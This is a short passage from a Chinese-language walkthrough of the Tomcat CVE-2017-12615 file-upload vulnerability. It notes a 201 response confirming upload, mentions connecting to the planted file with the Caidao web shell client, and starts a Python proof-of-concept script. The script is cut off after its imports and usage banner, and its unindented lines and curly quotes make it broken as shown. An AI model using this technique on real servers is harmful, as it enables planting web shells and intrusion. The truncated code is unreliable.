 ![image](img/6bd1f926fe2df7244b3f1515455c466d.png)

我们可以看到响应码为201，说明成功创建，我们用菜刀连接看一下：

![image](img/43fc5b6ab61d497783db0f13c114ef2d.png)

### poc

```
cve-2017-12615_cmd.py 
```

```
#!/usr/bin/env python
# coding:utf-8

import requests

import sys

import time

if len(sys.argv)!=2:

print(‘±---------------------------------------------------------+’)

print(’+ USE: python <filename> <url>                             +’)

```